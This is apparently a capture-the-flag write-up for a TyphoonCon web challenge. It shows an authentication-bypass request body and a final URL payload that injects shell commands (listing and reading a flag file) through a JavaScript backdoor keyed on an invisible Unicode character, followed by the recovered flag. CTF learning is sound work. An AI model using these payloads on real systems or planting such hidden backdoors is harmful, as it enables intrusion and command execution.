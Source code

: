 # Challenge
It takes one character [ ] to show you that the path to salvation

And it takes a hidden character to lead you to the flag

[https://typhooncon-hiddencharacter.chals.io/](https://typhooncon-hiddencharacter.chals.io/)

Flag format: SSD{...}

## Solution \[rgolab\]
First we have to find how to login
send payload:
```
username=admin&password[password]=1
```

after that we're able to check /home code and we can see we're able to go to the /${PortaSulRetro} which was set in the HTTP header
After join we'll see the [invisible backdoor](https://certitude.consulting/blog/en/invisible-backdoor/) in JS.

Final payload:
```
/127cf15f4a0ab591?%E3%85%A4=ls+-al+/srv/flag;cat+flag
```
and we have a flag:
```
SSD{bfee01bf8ca5f1766fb91b3b4a0533614da92beb}
```

#js #backdoor #commandinjection

